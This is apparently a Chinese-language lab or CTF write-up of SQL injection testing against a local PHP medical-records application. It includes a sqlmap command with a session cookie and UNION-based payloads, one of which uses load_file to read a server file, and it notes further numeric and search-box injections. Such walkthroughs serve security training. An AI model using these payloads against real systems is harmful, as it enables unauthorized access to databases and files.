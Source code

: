 ### 3.2. sqlmap 测试

发现 uid 参数疑似可注入

![image.png](https://img.ghostliner.top/Lmxj4H.png)

sqlmap 测试漏洞

```shell
sqlmap.py -u "http://192.168.163.132:32769/?m=set&o=useredit&uid=2" -p uid --proxy="http://127.0.0.1:8080" --cookie="PHPSESSID=etnodd8kfkuejkj0i1i07fehr7" --dbs
```

发现漏洞，获取数据库

![image.png](https://img.ghostliner.top/EkZnBy.png)

查看 payload

![image.png](https://img.ghostliner.top/3b4DTH.png)

也可在 bp 上查看

![image.png](https://img.ghostliner.top/Tg93sr.png)

确定为单引号闭合，使用 `-- -` 注释，列数为 10

### 3.3. load_file 读取文件

手动测试，使用 `load_file` 获取文件

```sql
'
uid=-2' union select 1,2,3,4,5,6,7,8,9,10 -- -
```

![image.png](https://img.ghostliner.top/JsTPhG.png)

```sql
'
uid=-2' union select 1,load_file('/var/www/html/key.php'),3,4,5,6,7,8,9,10 -- -
```

![image.png](https://img.ghostliner.top/gqpUFh.png)

### 3.4. 其他 sql 注入漏洞

**就诊记录列表页面存在数字型注入**

```r
http://192.168.163.135:32769/?m=record&o=indexlist&rid=-2 union select 1,2,3,4,database(),6,7,8-- &did=all
```

**患者页面搜索框存在模糊查询注入**

![image.png](https://img.ghostliner.top/tzSF4C.png)
